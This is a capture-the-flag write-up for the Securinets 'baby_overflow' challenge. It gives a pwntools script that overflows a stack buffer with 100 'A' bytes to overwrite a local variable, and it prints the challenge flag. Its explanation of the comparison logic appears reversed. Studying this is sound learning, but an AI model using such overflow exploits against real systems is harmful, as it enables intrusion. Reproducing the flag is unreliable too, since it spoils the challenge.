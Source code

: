 # baby_overflow - writeup

## description

![Alt text](img/1.png)

## binary information

```
$ file main
```

![Alt text](img/2.png)

```
$ pwn checksec main
```

![Alt text](img/3.png)

## Solution

In this task we are given the source code for the challenge, the program is comparing the local variable `key` with `0x1337`, if they are equal we won't get the flag else `win` function is called and the flag is printed.

![Alt text](img/4.png)

So in order to solve the challenge we should exploit the buffer overflow vulnerability to corrupt the value of the local variable `key` and get our flag.

## exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template main --host pwn.ctf-friendly.securinets.tn --port 1339
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'pwn.ctf-friendly.securinets.tn'
port = int(args.PORT or 1339)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvline(b'> ')
io.sendline(b'A' * 100)

io.interactive()


```

## exploit output

![Alt text](img/5.png)

## flag

```
SecuriNets{st4ck_r3writ3_k3y_fl49}
```

